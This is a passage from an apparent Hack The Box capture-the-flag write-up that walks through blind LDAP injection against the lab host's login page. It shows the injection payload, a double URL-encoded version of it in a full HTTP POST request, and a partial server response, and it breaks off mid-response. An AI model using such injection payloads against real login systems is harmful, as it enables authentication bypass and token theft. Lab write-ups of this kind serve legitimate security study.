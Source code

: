 <br>
![](/images/hackthebox/ctf/7.png)
#### It was "Cannot login"
#### Then I tried `!@#%^&*` and I got nothing, I just got the login page back again without any messages. I figured out that the username is being used in an `ldap` query, and it's injectable (because of the special chars payloads). Also that existing attribute where the token is stored is an `ldap` attribute. With the injection we have we can extract the token and use it to generate valid `OTP`s. But because the injection is blind it will be kinda tricky to extract the token.
<br>
<hr>
### LDAP Injection
#### As I said, it's a blind injection which means that we won't get any results. But a payload like this :`*)(uid=*))(|(uid=*`  should result in "Cannot login". However when I tried it I didn't get any message, So I tried to URL encode the payload and it worked. So the injection works when the payload is double URL encoded (I only encoded the payload once because the browser automatically encodes POST data). I switched to burp, here are the results :
#### Request :
```
POST /login.php HTTP/1.1
Host: ctf.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.htb/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 190
Cookie: PHPSESSID=sqmpanb3d1uui0pf4uafubv010
Connection: close
Upgrade-Insecure-Requests: 1

inputUsername=%25%32%61%25%32%39%25%32%38%25%37%35%25%36%39%25%36%34%25%33%64%25%32%61%25%32%39%25%32%39%25%32%38%25%37%63%25%32%38%25%37%35%25%36%39%25%36%34%25%33%64%25%32%61&inputOTP=0000
```
#### Response :
```

HTTP/1.1 200 OK
Date: Fri, 19 Jul 2019 17:58:29 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
X-Powered-By: PHP/5.4.16
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
```